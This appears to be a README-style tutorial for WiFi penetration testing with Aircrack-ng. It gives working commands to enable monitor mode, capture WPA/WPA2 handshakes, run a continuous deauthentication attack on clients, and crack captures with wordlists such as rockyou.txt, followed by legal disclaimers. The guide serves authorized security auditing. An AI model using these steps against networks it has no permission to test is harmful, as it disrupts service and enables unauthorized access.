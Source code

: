 # WiFi Penetration Testing with Aircrack-ng

This guide provides a step-by-step process for performing WiFi penetration testing using Aircrack-ng to capture and crack WPA/WPA2 handshakes.

## Prerequisites
- Linux system (Kali Linux recommended)
- WiFi adapter that supports monitor mode
- Aircrack-ng suite installed (`sudo apt install aircrack-ng`)
- Wordlist for password cracking

## Setup WiFi Adapter (Monitor Mode)

1. Check current mode:
   ```bash
   iwconfig
   ```
   (Look for mode=managed)

2. Kill interfering processes:
   ```bash
   sudo airmon-ng check kill
   ```

3. Start monitor mode:
   ```bash
   sudo airmon-ng start wlan0
   ```
   (Replace `wlan0` with your interface name)

4. Verify monitor mode:
   ```bash
   iwconfig
   ```
   (Should show mode=monitor and new interface name like wlan0mon)

## Scan for Nearby Networks

```bash
sudo airodump-ng wlan0mon
```
(Replace `wlan0mon` with your monitor interface)

Note down:
- BSSID (MAC address of target AP)
- CH (channel number)
- ESSID (network name)

## Capture Handshake

```bash
sudo airodump-ng --bssid <BSSID> -c <CH> -w <output_file> wlan0mon
```
Example:
```bash
sudo airodump-ng --bssid 00:11:22:33:44:55 -c 6 -w capture wlan0mon
```

This will create a `.cap` file. Wait until you see `[WPA handshake: <BSSID>]` in the top right corner.

## Accelerate Handshake Capture (Deauth Attack)

In a new terminal:
```bash
sudo aireplay-ng --deauth 0 -a <BSSID> -c <client_MAC> wlan0mon
```
(Use 0 for continuous deauth, or specify a number of packets)

## Check for Captured Handshake

```bash
ls
```
Look for `.cap` file (e.g., `capture-01.cap`)

## Crack the Handshake

```bash
aircrack-ng <capture_file.cap> -w <wordlist_path>
```
Example:
```bash
aircrack-ng capture-01.cap -w /usr/share/wordlists/rockyou.txt
```

## Cleanup

1. Stop monitor mode:
   ```bash
   sudo airmon-ng stop wlan0mon
   ```

2. Restart network manager:
   ```bash
   sudo systemctl start NetworkManager
   ```

## Legal Disclaimer

This guide is for educational and authorized penetration testing purposes only. Unauthorized access to computer networks is illegal. Always obtain proper authorization before testing any network.

## Wordlists

Popular wordlists for password cracking:
- rockyou.txt (included in Kali Linux)
- SecLists (https://github.com/danielmiessler/SecLists)
- CrackStation wordlist (https://crackstation.net/crackstation-wordlist-password-cracking-dictionary.htm)

## Legal & Ethical Notice
- This guide is for **educational purposes only**.
- Unauthorized WiFi hacking is **illegal** in most countries.
- Only test networks you own or have **explicit permission** to audit.
- The author is not responsible for misuse of this information.

Happy (ethical) hacking! 😊
